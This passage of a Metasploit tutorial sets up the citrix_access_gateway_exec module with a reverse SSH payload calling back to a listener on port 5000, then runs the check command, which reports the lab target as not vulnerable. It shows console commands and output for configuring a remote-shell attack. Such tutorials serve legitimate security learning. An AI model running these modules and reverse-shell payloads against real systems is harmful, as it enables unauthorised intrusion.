 Here, we’ve set the local port for listening to `5000` from the default `4444`. Let’s see our changes in the options.

```
msf6 exploit(unix/webapp/citrix_access_gateway_exec) > show options
```

```
Module options (exploit/unix/webapp/citrix_access_gateway_exec):

   Name     Current Setting  Required  Description
   ‐‐‐‐     ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.43.111   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    443              yes       The target port (TCP)
   SSL      true             yes       Use SSL
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_ssh):

   Name   Current Setting  Required  Description
   ‐‐‐‐   ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐
   LHOST  192.168.74.128   yes       The listen address (an interface may be specified)
   LPORT  5000             yes       The listen port


Exploit target:

   Id  Name
   ‐‐  ‐‐‐‐
   0   Automatic
```

Now that you’ve set up the exploit and the payload – you can start the fun. Let’s move on to the exploit commands.

### Check if the exploit will work or not <a href="#post-3536-_heading-h.49x2ik5" id="post-3536-_heading-h.49x2ik5"></a>

Before going forward with the exploit, you might wonder if it is actually going to work or not. Let’s try to find out. We’ll have to use the “check” command to see the target host is vulnerable to the exploit we’ve set up –

```
msf6 exploit(unix/webapp/citrix_access_gateway_exec) > check
```

```
[*] Attempting to detect if the Citrix Access Gateway is vulnerable...
[*] 192.168.43.111:443 - The target is not exploitable.
```

As you can see, the target we’re attacking is not vulnerable to this exploit. So there’s no point in continuing this line of attacking. In reality, you’ll mostly know if the machine has the vulnerability to the exploit you’re running beforehand. This is just an example to illustrate what is possible.
